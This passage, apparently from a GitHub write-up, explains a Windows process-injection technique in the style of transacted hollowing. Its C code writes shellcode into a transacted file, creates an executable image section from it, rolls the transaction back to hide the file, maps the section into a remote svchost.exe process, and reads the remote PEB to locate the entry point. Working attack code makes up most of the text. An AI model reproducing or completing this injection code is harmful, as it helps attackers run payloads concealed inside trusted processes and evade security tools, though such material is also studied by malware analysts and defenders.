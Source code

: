 After the transacted file is created and the payload is written to it, I create a new section from the transacted file and rollback the transaction.

```c
//<truncated for space>
NtCreateTransaction(&hTransaction, TRANSACTION_ALL_ACCESS, NULL, NULL, NULL, 0, 0, 0, 0, NULL);

RtlSetCurrentTransaction(hTransaction);
//<truncated for space>
RtlInitUnicodeString(&filename, (PCWSTR)L"\\??\\C:\\temp\\test.txt");

RtlZeroMemory(&osb, sizeof(IO_STATUS_BLOCK));
InitializeObjectAttributes(&oa, &filename, OBJ_CASE_INSENSITIVE, NULL, NULL);

NtCreateFile(&hFileTransacted, STANDARD_RIGHTS_WRITE | FILE_WRITE_DATA | FILE_WRITE_ATTRIBUTES | FILE_WRITE_EA | FILE_APPEND_DATA | SYNCHRONIZE | FILE_READ_DATA | FILE_READ_ATTRIBUTES, &oa, &osb, 0, FILE_ATTRIBUTE_NORMAL, FILE_SHARE_WRITE, FILE_CREATE, FILE_SYNCHRONOUS_IO_NONALERT, NULL, 0);

RtlSetCurrentTransaction(hTransaction);
//<truncated for space>
RtlZeroMemory(&iosb, sizeof(IO_STATUS_BLOCK));
NtWriteFile(hFileTransacted, NULL, NULL, NULL, &iosb, shellcode, shellcode_size, NULL, NULL);
//<truncated for space>
NtCreateSection(&hSection, SECTION_MAP_EXECUTE, NULL, 0, PAGE_READONLY, SEC_IMAGE, hFileTransacted);
NtClose(hFileTransacted);
NtRollbackTransaction(hTransaction, TRUE);
NtClose(hTransaction);
```

#### 3. Mapping the section

The newly created malicious section is then mapped into the remote process. The remote image base address `rBaseAddr` is set to Zero, this means that the operating system will decide where to map the image.

```c
LPVOID rBaseAddr = 0;
SIZE_T sSize = 0;
NtMapViewOfSection(hSection, pi.hProcess, &rBaseAddr, 0, shellcode_size, NULL, &sSize, ViewUnmap, 0, PAGE_EXECUTE);
```

#### 4. Grabbing offsets

This is the part where it starts to get wonky. Instead of using the locally mapped section of *svchost.exe*, I used `NtQueryInformationProcess` to get the base address of the remote PEB. Next I used `NtReadVirtualMemory` to read the remote PEB. Once I have access to the remote PEB, I can use it to read the remote image base address of *svchost.exe*.

With the remote image base address, I can use `NtReadVirtualMemory` again to read the image headers, which in turn are used to read the remote *entry point* address.

```c
PROCESS_BASIC_INFORMATION basicinfo;
ULONG bytesWritten = 0;
NtQueryInformationProcess(pi.hProcess, ProcessBasicInformation, &basicinfo, sizeof(PROCESS_BASIC_INFORMATION), &bytesWritten);

PEB peb = { 0 };
SIZE_T bytesRead = 0;
NtReadVirtualMemory(pi.hProcess, basicinfo.PebBaseAddress, &peb, sizeof(PEB), &bytesRead);

DWORD64 imageBase = (DWORD64)peb.ImageBaseAddress;

BYTE headersbuffer[4096];
NtReadVirtualMemory(pi.hProcess, (LPVOID)imageBase, headersbuffer, 4096, NULL);
```